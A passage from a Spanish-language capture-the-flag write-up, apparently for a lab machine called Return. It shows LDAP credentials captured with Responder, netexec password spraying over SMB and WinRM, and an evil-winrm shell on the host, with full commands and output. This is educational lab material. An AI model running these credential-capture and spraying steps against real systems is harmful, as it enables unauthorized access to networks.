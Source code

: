 ![](return3.jpg)

Al enviar "update", se recibe un usuario y contraseña por el responder, obteniendo algunas credenciales validas.
~~~bash
[+] Listening for events...                                                                                                                                 
[LDAP] Cleartext Client   : 10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1ed<SNIP>2!!
[+] Exiting..
~~~
Con esas credenciales, yo coloco a todos los usuarios en un archivo "users" y las contraseñas en un archivo "pass". Asi que probando las credenciales estas son validas.
~~~bash
sudo netexec smb 10.10.11.108 -u users -p pass --continue-on-success
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)                                                                                                                                                      
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1ed<SNIP>2!! 
SMB         10.10.11.108    445    PRINTER          [-] return.local\printer:1edFg43012!! STATUS_LOGON_FAILURE
~~~
Por casualidad, tambien se probo las credenciales para entrar por winrm.
~~~bash
sudo netexec winrm 10.10.11.108 -u users -p pass --continue-on-success
WINRM       10.10.11.108    5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1ed<SNIP>2!! (Pwn3d!)
~~~
Obteniendo asi un "pwn3d", que significa que se tienen permisos necesarios para ingresar a ese servicio, por lo que se ingresa mediante WinRm.
~~~bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1ed<SNIP>2!!'                                              
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
~~~